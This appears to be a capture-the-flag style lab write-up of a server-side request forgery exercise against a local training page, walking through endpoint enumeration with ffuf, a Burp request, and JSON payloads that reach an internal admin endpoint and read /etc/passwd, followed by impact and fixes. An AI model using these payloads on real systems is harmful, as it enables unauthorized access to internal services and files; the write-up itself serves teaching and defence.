





# SSRF 0x01

## What is SSRF (Server Side Request Forgery)?
SSRF is a vulnerability where an attacker can
force the server to make HTTP requests to any
URL of their choosing. This allows attackers to:
- Access internal endpoints not reachable from outside
- Bypass firewalls and access control lists
- Read internal files via file:// protocol
- Scan the internal network from the server's view
- Access cloud metadata services (AWS, GCP, Azure)

The vulnerability happens when a server fetches
a URL provided by the user without proper
validation of the destination.

## Target
http://localhost/labs/s0x01.php

## Vulnerability
The "Price comparison" feature fetches data from
an external URL provided by the user. The server
does not validate the destination URL — allowing
the attacker to make it request internal endpoints
that should not be publicly accessible.

## Attack

### Step 1 — Identify the lab
Opened SSRF 0x01 — a price comparison page that
fetches product data from a URL parameter.

### Step 2 — Enumerate the API directory
Used ffuf to find hidden API endpoints:
ffuf -u http://localhost/labs/api/FUZZ 
-w /usr/share/wordlists/dirb/common.txt

Result: Found admin.php (Status 403)

### Step 3 — Direct access fails
Tried to access admin.php directly in browser:
http://localhost/labs/api/admin.php
Result: "Access denied!" — admin endpoint is
protected from external access.

### Step 4 — Identify SSRF entry point
Intercepted request in Burp Suite Repeater:
POST /labs/s0x01.php HTTP/1.1
{
  "url": "http://localhost/labs/api/products"
}
The url parameter accepts any URL to fetch.

### Step 5 — Exploit SSRF
Modified the url parameter to target the
internal admin endpoint:
{
  "url": "http://localhost/labs/api/admin.php"
}

### Step 6 — Confirm SSRF success
Response from server:
{
  "status": "success",
  "content": "{\"status\":\"success\",
  \"message\":\"Welcome to the admin endpoint!\"}"
}

The server fetched the admin endpoint on our
behalf, bypassing the access denied restriction!

## Payloads Used
```json
{"url": "http://localhost/labs/api/admin.php"}
{"url": "http://127.0.0.1/labs/api/admin.php"}
{"url": "file:///etc/passwd"}
```

## Screenshots






## Impact
- Access to internal-only endpoints
- Bypass authentication and ACL restrictions
- Read internal files via file:// protocol
- Port scanning of internal network
- Cloud metadata exposure (AWS IMDS, GCP, Azure)
- Pivot to other internal services

## Fix
- Validate and whitelist allowed URLs/domains
- Block requests to internal IP ranges (127.0.0.1,
  10.0.0.0/8, 172.16.0.0/12, 192.168.0.0/16, 169.254.0.0/16)
- Disable unused URL schemes (file://, gopher://, dict://)
- Use a network-level egress filter
- Never use raw user input as a request destination
- Implement DNS rebinding protection
